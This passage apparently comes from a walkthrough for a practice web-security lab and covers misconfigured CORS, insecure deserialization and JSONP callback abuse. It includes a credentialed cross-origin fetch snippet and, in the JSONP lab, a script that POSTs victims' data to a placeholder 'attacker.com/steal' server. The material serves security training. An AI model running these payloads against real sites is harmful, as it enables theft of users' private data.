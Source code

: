 **Step 1: Analyze CORS headers**
- Navigate to `cors/profile.php`
- Check response headers for CORS configuration

**Step 2: Test CORS policy**
- Create test HTML page:
```html
<script>
fetch('http://target.com/cors/profile.php', {
    credentials: 'include'
}).then(response => response.text())
.then(data => console.log(data));
</script>
```

**Step 3: Exploit misconfigured CORS**
- If `Access-Control-Allow-Origin: *` with credentials
- Extract sensitive data cross-origin

---

## Lab 9: Insecure Deserialization (insecuredes/)

**Step 1: Analyze the application**
- Navigate to `insecuredes/index.php`
- Look for serialized data in cookies or parameters

**Step 2: Examine backup file**
- Check `insecuredes/backup.bak` for source code
- Analyze serialization/deserialization logic

**Step 3: Create malicious payload**
- Craft serialized object with malicious properties
- Inject into application parameters

**Step 4: Execute attack**
- Submit malicious serialized data
- Achieve code execution or authentication bypass

---

## Lab 10: JSONP Vulnerabilities (jsonp/)

**Step 1: Identify JSONP endpoints**
- Navigate to `jsonp/` directory
- Look for endpoints accepting callback parameters

**Step 2: Test callback manipulation**
- URL: `endpoint.php?callback=malicious_function`
- Verify if callback is reflected without validation

**Step 3: Data extraction attack**
```html
<script>
function steal_data(data) {
    // Send data to attacker server
    fetch('http://attacker.com/steal', {
        method: 'POST',
        body: JSON.stringify(data)
    });
}
</script>
<script src="http://target.com/jsonp/endpoint.php?callback=steal_data"></script>
```

---